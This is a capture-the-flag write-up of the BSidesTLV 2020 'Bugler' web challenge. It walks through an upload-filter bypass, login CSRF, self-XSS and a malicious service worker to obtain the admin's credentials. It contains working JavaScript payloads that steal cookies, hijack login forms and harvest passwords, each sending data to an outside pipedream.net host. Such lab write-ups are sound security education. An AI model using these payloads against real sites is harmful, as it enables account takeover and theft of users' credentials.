







# Bugler
* Category: Web
* 550 Points
* Solved by the JCTF Team

## Description
> Don't be so selfish! Share your phishing sites with us, our admin will appreciate your service
> 
> URL: https://bugler.ctf.bsidestlv.com
> 
> By Daniel Abeles and Tomer Zait

## Solution

The attached website is an impressive dashboard with many graphs and tables:



We can register to the service, and once we have a username and password, we can log in. As logged in users, we can view our profile:



And even edit it:



Notice how the "edit profile" page provides the ability to upload a profile picture.

The site rejects files with an `*.html`, `*.htm` or `*.js` extension, but accepts such files if the extension is UPPERCASE. **This means that we have the ability to store HTML and Javascript on the website server!**

Another feature that the website has is the "report phishing" capability. If we enter a website, we can then click a "report phishing" button in order to report it to the admin:



The admin later visits this website to check it. **This means that we have the ability to cause the admin to visit a website of our choice!**

The next obvious step is to upload a malicious HTML page as the profile picture and have the admin visit this page.

We'll try to steal the admin's cookies using this method:

```html
<script>
fetch("https://endlbdl92l0m4.x.pipedream.net/?cookie=" + btoa(document.cookie));
</script>
```

We upload the page and set the link our profile to point to it:



However, it turns out that the admin won't agree to visit this page if it's under `https://bugler.ctf.bsidestlv.com/upload/`. Fortunately, we are able to bypass that by replacing the periods with their encoded value (`%2E`):



Now we get a hit in our server:

```
/?cookie=QlNpZGVzVExWPTA0MTg1MTE0NDBlY2QwMmI5NWQzNTVlNzEyNjMwOGNjNWJjYzZlMmI=
```

Let's decode the cookie:

```console
root@kali:/media/sf_CTFs/bsidestlv/bugler# echo QlNpZGVzVExWPTA0MTg1MTE0NDBlY2QwMmI5NWQzNTVlNzEyNjMwOGNjNWJjYzZlMmI= | base64 -d
BSidesTLV=0418511440ecd02b95d355e7126308cc5bcc6e2b
```

This is the standard CTF cookie. Where is the website session cookie, like the one we get when we log in? 

```console
root@kali:/media/sf_CTFs/bsidestlv/bugler# curl -c - 'https://bugler.ctf.bsidestlv.com/login' \
>   -H 'Content-Type: application/x-www-form-urlencoded' \
>   -H 'Cookie: BSidesTLV=0418511440ecd02b95d355e7126308cc5bcc6e2b' \
>   --data-raw 'username=user1&password=1234567890'
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/">/</a>.  If not click the link.# Netscape HTTP Cookie File
# https://curl.haxx.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

#HttpOnly_bugler.ctf.bsidestlv.com      FALSE   /       FALSE   0       session .eJxdjTsOwjAQBe-yNYqz_mCHipqWEzzsRYqICQqEJsrdWbd0o3nSvI3Wtyx02ghffKBEZn1NM4oZJNow5BjYwUtOhq0_MgdfHCcfbnAOfWIbc-pdicLd5UoHkopx0swdDzk37vJc1Y9F5X9Tfft_ooquDZn2_QekfitY.Xv8e1A.qnqT3p441qbAKDrYKFVz6fcINzg
```

Well, there's the answer right there: The session cookie is marked as "HTTPOnly", meaning that Javascript has no access to it!

Ok then, we still have the ability to upload content to the website. We can create an iframe and access its content via Javascript, as long as both pages are from the same origin. This way, we can try to access the admin's profile page and see if there's anything interesting in it:

```html
<script src="https://code.jquery.com/jquery-3.5.1.min.js"></script>
<iframe src="https://bugler.ctf.bsidestlv.com/profile" id="my_iframe"></iframe>

<script>
$('#my_iframe').on("load",function(){
    var body = $("#my_iframe").contents().find('body').html();
    $.post( "https://endlbdl92l0m4.x.pipedream.net/?profile", { data: btoa(body) } );
});
</script>
```

However, we just get the login page, as the the admin isn't logged in.

Maybe he has autocomplete? We can try to steal his credentials by submitting the login form to our server:

```html
<script src="https://code.jquery.com/jquery-3.5.1.min.js"></script>
<iframe src="https://bugler.ctf.bsidestlv.com/login" id="my_iframe"></iframe>

<script>
$('#my_iframe').on("load",function(){
    var form = $("#my_iframe").contents().find("form")
    form.attr('action', 'https://endlbdl92l0m4.x.pipedream.net/');
    setTimeout(function(){
        form.submit()
    }, 2000);
});
</script>
```

However, the username and password come in blank. What are we missing?

At this stage, it's a good idea to start searching for any other vulnerability or special behavior that we might have missed.

For example, we can find a self-XSS in the profile page:



A self-XSS is an XSS that is only visible to the user himself (e.g. only when logged in as himself). Usually there's not much we can do with that.

Another fact that we note is that the login page has a redirect capability. For example, if we send a user which isn't logged in to `https://bugler.ctf.bsidestlv.com/profile/9e7259c7513a4ec8`, he'll be redirected to `https://bugler.ctf.bsidestlv.com/login?next=%2Fprofile%2F9e7259c7513a4ec8` and after logging in arrive to the original link.

Again, it isn't clear how we can currently use this information. 


Well, at least until we find [this page](https://blogs.akamai.com/sitr/2020/01/abusing-the-service-workers-api.html), that is. The article, by Daniel Abeles (who not-so-much-by-chance is also the co-author of the challenge), explains in details how to attack a website with the exact same vulnerabilities. 

The important part is here:

> ## Attack Flow
> 
> First, the attacker uploads the malicious service worker to the website (using the file upload functionality). Then, he tricks the victim to visit the attacker's controlled page. That page has an iframe that will cause the user to logout, and login again as the attacker (using the attacker credentials). Once the user is logged in, the attacker will redirect him to the /profile page, thereby triggering the self-XSS. In turn, the XSS payload will register the malicious service worker and log him out again.
> 
> In this stage, the user is logged out from the system. When the user tries to log in again, the malicious service worker will kick in on his user context, resulting in a persistent XSS (in contrast to the self-XSS we had before).

So let's do exactly that:

First, we upload a malicious service worker to the website, using the file upload functionality:

```javascript
self.addEventListener('install', (event) => {
   fetch('https://endlbdl92l0m4.x.pipedream.net/?install')
});

self.addEventListener('activate', (event) => {
   fetch('https://endlbdl92l0m4.x.pipedream.net/?activate')
});

self.addEventListener('fetch', (event) => {
    e = event.request.clone();
    if (event.request.method == 'POST') 
    {
        event.request.formData().then((form_data) => {
            fetch('https://endlbdl92l0m4.x.pipedream.net/?username=' + form_data.get('username') + '&pass=' + form_data.get('password'))
        });
    }
    event.respondWith(fetch(e));
});
```

Then, we upload a page with an iframe which logs the admin into our profile:

```html
<iframe id="my_iframe"></iframe>

<form action="https://bugler.ctf.bsidestlv.com/login?next=/profile#edit" method="post" target="my_iframe" id="my_form">
   <input type="hidden" name="username" value="user1" />
   <input type="hidden" name="password" value="1234567890" />
   <input type="submit" />
</form>

<script>
document.getElementById("my_form").submit(); 
</script>
```

We edit our profile and set the self-XSS in the *City* field to register our service worker:

```javascript
<script>
navigator.serviceWorker.register('/upload/9e7259c7513a4ec8/12461154d31845ba33a08127c803d7e1.JS', {
      scope: '/login'
   })
   .then((reg) => {
      console.log("registered");
      fetch('https://endlbdl92l0m4.x.pipedream.net/?register')
   });

</script>
```

We trick the admin into visiting the page with the IFRAME, by editing our website link and pointing to this page, then reporting this page for phishing.

This causes the following chain of events:

1. The admin visits the page we reported as a phishing page
2. The page contains an iframe and Javascript code which logs the admin into our profile, and sends him to our profile page
3. The profile page contains a self-XSS which registers a service worker, becoming a persistent XSS even after logging out
4. The admin later tries to login as himself
5. The service worker which is registered to the login page kicks in, and steals the username and password, sending it to our server
6. We obtained the admin's credentials: `/?username=admin&pass=BSidesTLV2020{S3rv1ce_W0rk3rs@Y0urS3rvic3}`

The flag: `BSidesTLV2020{S3rv1ce_W0rk3rs@Y0urS3rvic3}`